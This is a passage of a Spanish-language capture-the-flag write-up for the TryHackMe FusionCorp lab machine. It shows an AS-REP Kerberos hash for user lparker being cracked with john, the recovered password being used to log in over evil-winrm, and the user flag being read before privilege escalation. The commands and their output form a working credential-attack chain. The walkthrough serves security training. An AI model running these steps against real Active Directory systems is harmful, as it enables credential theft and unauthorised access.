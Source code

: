     Montamos todo:
    
    1)Creamos una lista con los usuarios que hemos encontrado.
    
    2)Editamos nuestro fichero /etc/hosts

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/FusionCorp/content]
        └─# cat /etc/hosts
        10.10.122.116   fusion.corp
        [IP Maquina]    [Dominio resolver]
    
    3)Montamos el comando y obtenemos Kerberos HASH (RC4) del usuario lparker.

      ![image](https://github.com/Esevka/CTF/assets/139042999/858ac63d-ad88-45ca-97ba-8c5c99ba2813)

    4)Intentamos crakear el hash del usuario lparker con john y asi obtener unas credenciales validas para intenter conectarnos por los demas servicios expuestos.

        ┌──(root㉿kali)-[/home/…/ctf/try_ctf/FusionCorp/content]
        └─# john hashuser_NP --wordlist=/usr/share/wordlists/rockyou.txt 
        Using default input encoding: UTF-8
        Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
        Will run 3 OpenMP threads
        Press 'q' or Ctrl-C to abort, almost any other key for status
        !!abbylvzsvs2k6! ($krb5asrep$lparker@FUSION.CORP)     
        1g 0:00:00:02 DONE (2023-10-14 09:50) 0.4032g/s 991896p/s 991896c/s 991896C/s !ebabaloh..๙า๘ฌน++๘
        Use the "--show" option to display all of the cracked passwords reliably
        Session completed.

      Conseguimos credenciales     lparker:!!abbylvzsvs2k6!


## Autenticacion en la maquina victima

-Nos autenticamos con el usuario lparker en la maquina victima y obtenemos --> flag.txt(User1)

    ┌──(root㉿kali)-[/home/…/Desktop/ctf/try_ctf/FusionCorp]
    └─# evil-winrm -i 10.10.169.83 -u lparker -p '!!abbylvzsvs2k6!'
    
    *Evil-WinRM* PS C:\Users\lparker\Documents> dir ..\Desktop
    
        Directory: C:\Users\lparker\Desktop
    Mode                LastWriteTime         Length Name
    ----                -------------         ------ ----
    -a----         3/3/2021   6:04 AM             37 flag.txt
    
    *Evil-WinRM* PS C:\Users\lparker\Documents> type ..\Desktop\flag.txt
    THM{c105b6fb249741b8-------ada8218f4ef}

-Despues de analizar la maquina y visualizar toda la info del usuario lparker,necesitamos escalar privilegios.

    *Evil-WinRM* PS C:\Users\lparker\Documents> whoami /all
    
    USER INFORMATION
    ----------------
    User Name      SID
    ============== =============================================
    fusion\lparker S-1-5-21-1898838421-3672757654-990739655-1103
    